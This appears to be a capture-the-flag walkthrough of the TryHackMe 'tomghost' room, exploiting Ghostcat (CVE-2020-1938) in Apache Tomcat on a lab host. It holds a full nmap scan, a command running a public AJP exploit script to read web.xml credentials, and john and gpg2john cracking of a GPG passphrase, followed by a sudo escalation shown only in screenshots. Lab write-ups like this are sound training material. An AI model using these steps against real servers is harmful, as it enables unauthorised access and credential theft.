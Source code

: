# CVE-2020-1938


## Enumeration 

# Nmap Scan

```
nmap -sV -sC -vv -T5 -p- -oA result 10.10.24.24
```

The Results!

```java
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack
8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Checking the webpage!

![****](/tomghost/Screenshots/apache.PNG)

A quick search on Google! it turned out that this version of Apache is Vulnerable to File/code Execution!

![****](/tomghost/Screenshots/exploit-db.PNG)


About the Vulnerability!

- The general idea of a Tomcat server has different ports set up . There’s of course the 8080 HTTP webservice port. Then there is another lesser known port 8009 which runs the AJP (Apache JServ Protocol) service. It is essentially a service implemented through tomcat and allows for performing different operations.
- AJP is a binary protocol that reduces overhead for an application server in comparison to the HTTP. It is similar to HTTP but at a binary level. Since it is binary , the machine level translation is far more faster than the HTTP parsing.
- Apache Tomcat versions 6.x, 7.x, 8.x, and 9.x are found to be vulnerable to this Ghostcat issue.

Reference: https://apkash8.medium.com/hunting-and-exploiting-apache-ghostcat-b7446ef83e74

After few searchs! I found this script made by 000theway, [Ghostcat-CNVD-2020-10487
](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

The command I used to check the files! 

![****](/tomghost/Screenshots/ajp.PNG)

```
python3 ajpShooter.py http://10.10.24.24:8080/ 8009 /WEB-INF/web.xml read
```

Wanted to read ```web.xml``` file! surprisingly I saw some credentials there! 

![****](/tomghost/Screenshots/skyfuck.PNG)

## It's time for SSH!

### user.txt

![****](/tomghost/Screenshots/user.PNG)

In our main home directory we recognized 2 files! gpg and asc!
- GNU Privacy Guard is a free-software replacement for Symantec's PGP cryptographic software suite, Allows you to securely encrypt files so that only the intended recipient can decrypt them.
- .asc file is an ASCII-armored representation of key material (or a signature), asc seemed to be the key to decrypt the ```.gpg``` file


Few search on google! how to decrypt using ```.asc``` files:

```
gpg --import tryhackme.asc
```

```
gpg --decrypt credential.pgp
```


![****](/tomghost/Screenshots/asc.PNG)

It seems we need a passphase! how to solve this? let get the asc file on our machine! and try to brute force it using ```gpg2john``` tool to generate the hash so ```john``` can brute force it!

```
gpg2john tryhackme.asc > hash
```

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![****](/tomghost/Screenshots/gpg2john.PNG)


![****](/tomghost/Screenshots/john.PNG)

Now let try to decrypt!

![****](/tomghost/Screenshots/decrypt.PNG)

We got some Credentials again!

```su merlin```

## root.txt

``` sudo -l```

![****](/tomghost/Screenshots/merlin.PNG)

A quick search on GTFOBins

![****](/tomghost/Screenshots/gtfo.PNG)


![****](/tomghost/Screenshots/root.PNG)


# We're ROOT!